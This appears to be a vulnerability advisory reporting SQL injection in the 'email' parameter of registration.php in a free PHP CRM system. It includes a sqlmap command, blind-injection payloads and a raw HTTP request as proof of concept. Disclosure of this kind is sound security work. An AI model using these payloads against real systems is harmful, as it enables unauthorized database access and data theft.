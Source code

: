 # Simple Customer Relationship Management (CRM) System using PHP Free Source Code V1.0 registration.php - SQL injection vulnerability
+ Author: xuanluansec
# Vendor Homepage
+ https://www.sourcecodester.com/php/15895/simple-customer-relationship-management-crm-system-using-php-free-source-coude.html
# Software Link
+ https://www.sourcecodester.com/sites/default/files/download/oretnom23/php-scrm.zip
# Overvie
+ xuanluansec has discovered that Simple Customer Relationship Management (CRM) System using PHP Free Source Code is affected by serious security vulnerabilities due to insufficient protection of the "email" parameter in the "registration.php" file. This vulnerability may be used to inject malicious SQL queries, resulting in unauthorized access and extraction of sensitive information from the database.
# Vulnerability Details
+ Simple Customer Relationship Management (CRM) System using PHP Free Source Code V1.0
+ Vulnerable File: registration.php
+ Parameter Names: email
+ Attack Type: Remote
# Description
+ xuanluansec has discovered that Simple Customer Relationship Management (CRM) System using PHP Free Source Code is affected by serious security vulnerabilities due to insufficient protection of the "email" parameter in the "registration.php" file. This vulnerability may be used to inject malicious SQL queries, resulting in unauthorized access and extraction of sensitive information from the database.

# Proof of Concept (PoC) : 
+ `sqlmap -u "http://www.php-scrm.com:8099/registration.php" --dbms=mysql -v 3 -p 'email' --data="email=sqli" --method='POST'`

```
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: email=sqli' AND 8437=8437 AND 'rDir'='rDir
    Vector: AND [INFERENCE]

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=sqli' AND (SELECT 1259 FROM (SELECT(SLEEP(5)))GOmm) AND 'ymQH'='ymQH
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
---
```
![1](https://github.com/xuanluansec/vul/blob/main/vul/img/26.png)

# Burp Suite (POC):
```
POST /registration.php HTTP/1.1
Host: www.php-scrm.com:8099
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://www.php-scrm.com:8099
Connection: close
Referer: http://www.php-scrm.com:8099/login.php
Cookie: PHPSESSID=20n7dige9cepsupusefvv53s07
Upgrade-Insecure-Requests: 1

email=sqli' AND 8437=8438 AND 'rDir'='rDir
```
8437=8438 flase
![1](https://github.com/xuanluansec/vul/blob/main/vul/img/27.png)
8437=8437 true
![1](https://github.com/xuanluansec/vul/blob/main/vul/img/28.png)
